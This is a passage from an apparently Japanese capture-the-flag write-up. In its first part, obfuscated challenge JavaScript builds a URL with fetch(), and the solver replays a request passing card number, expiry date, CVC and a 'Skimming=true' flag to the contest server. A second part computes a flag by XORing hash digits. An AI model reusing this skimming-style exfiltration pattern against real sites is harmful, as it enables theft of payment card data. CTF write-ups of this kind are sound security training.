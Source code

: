 ```javascript
        }
      }
      _0x39e251 += _0x3adf4b;
      _0x5d648f = !_0x5d648f;
    }
    return _0x39e251 % 10 === 0;
  }
  let _0x24d3e7 = _0x3bb027();
  fetch(_0x24d3e7);
});
```
_0x3bb027という関数がリクエストURLを組み立てているようです。
この値をそのまま使えば良さそうです。
```javascript
(async () => {
    const res = await fetch("https://pg3.2025winter-cybercontest.net/pg3?cardnumber=1&exp-date=1000000&cvc=1&Skimming=true");
    console.log(await res.text());
})();
```
```
flag{f1iping_de0bfuscat0r}
```

### loop in loop

2つの文字列をハッシュアルゴリズムによりハッシュ化し、それらの値を二重for loopでXORしていきフラグを求める問題です。
これは問題文にアルゴリズムがそのまま書いてあるので、それを実装すればいいだけです。
```javascript
const crypto = require('crypto');

function ripemd160(str) {
    return crypto.createHash('ripemd160').update(str).digest('hex');
}

function processStrings(str1, str2) {
    const hash1 = ripemd160(str1);
    const hash2 = ripemd160(str2);

    let result = 0;

    for (let i = 0; i < hash1.length; i++) {
        const char1 = hash1[i];
        if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char1)) {
            continue;
        }
        for (let j = 0; j < hash2.length; j++) {
            const char2 = hash2[j];
            if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char2)) {
                continue;
            }
            result += parseInt(char1) ^ parseInt(char2);
        }
    }
    return result;
}

const str1 = 'Phoenix';
const str2 = 'Messiah';
console.log(processStrings(str1, str2));
```
```
flag{5785}
```
